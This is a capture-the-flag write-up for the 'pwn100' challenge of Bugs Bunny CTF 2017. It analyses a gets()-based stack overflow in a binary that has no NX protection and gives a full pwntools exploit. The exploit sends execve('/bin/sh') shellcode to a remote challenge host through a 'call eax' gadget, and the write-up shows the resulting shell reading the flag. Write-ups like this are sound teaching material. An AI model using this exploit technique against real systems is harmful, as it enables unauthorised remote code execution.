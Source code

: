 ```yaml
---
title: pwn100 (pwnage 100)
category: bugs_bunny_ctf_2k17
author_member: muffinx
show_comments: false
---
```


Binary type:

```
pwn100: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4eed8d04991f7b37ef1e309f1ecc983d7ff84333, not stripped
```

Binary security measurements:

```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

The functionality is pretty straight forward:

```cpp
char *docopy()
{
  char s; // [sp+10h] [bp-18h]@1

  return gets(&s);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  docopy();
  return 0;
}
```

So just a basic stack overflow.
The only function available to us is gets().
Looking at the segments there is no wx(write/execute) segment which could be used to copy data to with gets.

```
.init         080482B0 080482D3 R . X . L dword 0001 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.plt          080482E0 08048320 R . X . L para  0002 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.text         08048320 080484C2 R . X . L para  0003 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.fini         080484C4 080484D8 R . X . L dword 0004 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.rodata       080484D8 080484E0 R . . . L dword 0005 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.eh_frame_hdr 080484E0 08048514 R . . . L dword 0006 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.eh_frame     08048514 080485E4 R . . . L dword 0007 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.init_array   08049F08 08049F0C R W . . L dword 0008 public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.fini_array   08049F0C 08049F10 R W . . L dword 0009 public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.jcr          08049F10 08049F14 R W . . L dword 000A public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.got          08049FFC 0804A000 R W . . L dword 000B public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.got.plt      0804A000 0804A018 R W . . L dword 000C public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.data         0804A018 0804A020 R W . . L dword 000D public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.bss          0804A020 0804A024 R W . . L byte  000E public BSS   32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
extern        0804A024 0804A044 ? ? ? . L para  000F public       32 FFFFFFFF FFFFFFFF FFFFFFFF FFFFFFFF FFFFFFFF
```

So we have to execute our shellcode on the stack, which is actually possible since no NX is activated. So let's use some rop to jump into the stack.

When we look at the registers before the ret, we can see that eax actually points to our input.

```
EAX: 0xffffd470 ('A' <repeats 12 times>, "a")
EBX: 0xf7fa3000 --> 0x16fda8
ECX: 0xfbad2288
EDX: 0xf7fa4864 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0xffffd488 --> 0xffffd498 --> 0x0
ESP: 0xffffd460 --> 0xffffd470 ('A' <repeats 12 times>, "a")
EIP: 0x804842e (<docopy+17>:	leave)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048423 <docopy+6>:	lea    eax,[ebp-0x18]
   0x8048426 <docopy+9>:	mov    DWORD PTR [esp],eax
   0x8048429 <docopy+12>:	call   0x80482f0 <gets@plt>
=> 0x804842e <docopy+17>:	leave  
```

I found a ropgadget with that we can jump into our placed shellcode:

```
0x08048386 : call eax
```

Resulting in this exploit:


```python
#!/usr/bin/env python

from pwn import *
context(arch = 'i386', os = 'linux')

#r = process('./pwn100')
r = remote('54.153.19.139', 5252)

#gdb.attach(r, '''
#set follow-fork-mode child
#break *0x0804842F
#continue
#''')

payload = asm('xor eax,eax')
payload += asm('xor ecx,ecx')
payload += asm('xor edx,edx')
payload += asm('xor esi,esi')
payload += asm('mov eax,0x0b')
payload += asm('lea ebx,[esp-8]')
payload += asm('int 0x80')
payload += '/bin/sh\x00'

payload = ('\x90' * (28-len(payload))) + payload
payload += p32(0x08048386) # call EAX


r.sendline(payload)
r.interactive()
```

As you can see I used the shellcoding features of pwntools to build a working shellcode.
The "/bin/sh" string is at the end of the shellcode and the string pointer to it will be put
into ebx by using:

```
lea ebx,[esp-8]
```

Finally we got a shell:

```
$ cat /home/pwn100/flag
Bugs_Bunny{ohhhh_you_look_you_are_gooD_hacker_Maybe_Iknow_you:p}
```
